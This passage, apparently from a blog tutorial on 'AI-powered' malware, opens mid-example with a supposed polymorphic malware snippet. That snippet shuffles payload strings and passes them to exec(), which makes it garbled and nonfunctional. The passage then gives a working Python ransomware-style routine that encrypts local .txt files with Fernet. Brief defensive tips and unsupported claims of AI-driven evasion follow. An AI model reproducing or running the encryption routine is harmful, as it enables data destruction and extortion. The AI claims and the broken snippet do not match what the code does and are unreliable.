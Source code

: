 def mutate():
    obfuscated_payload = "".join(random.sample(payloads, len(payloads)))
    exec(obfuscated_payload)

mutate()

💣 What This Does:

    AI selects different attack payloads every execution.
    The malware never has the same signature, making it undetectable by traditional antivirus software.

✅ How to Defend Against AI-Powered Polymorphic Malware

    Use AI-based antivirus solutions (like Microsoft Defender ATP, Cylance AI, or CrowdStrike Falcon).
    Monitor system behavior instead of file signatures (Behavioral analysis can detect unknown threats).
    Use endpoint detection & response (EDR) to track suspicious script execution.

⚡ 2️⃣ AI-Powered Ransomware (Self-Adapting)

🔹 Traditional ransomware encrypts files and demands a Bitcoin ransom.
🔹 AI-powered ransomware can:

    Analyze user behavior before deploying.
    Automatically bypass security tools.
    Optimize encryption speed to avoid detection.

🔴 Example: AI-Powered Ransomware

import os
import cryptography
from cryptography.fernet import Fernet

def generate_key():
    return Fernet.generate_key()

def encrypt_files():
    key = generate_key()
    with open("keyfile.key", "wb") as keyfile:
        keyfile.write(key)

    fernet = Fernet(key)
    for file in os.listdir():
        if file.endswith(".txt"):  # Encrypting only text files (can be expanded)
            with open(file, "rb") as f:
                encrypted = fernet.encrypt(f.read())
            with open(file, "wb") as f:
                f.write(encrypted)

encrypt_files()

🔥 How AI Improves This Ransomware

    AI-based target prioritization
        Malware scans files and prioritizes high-value data (e.g., financial records).

    AI-driven evasion
        Detects sandbox environments and avoids running in a virtual machine.
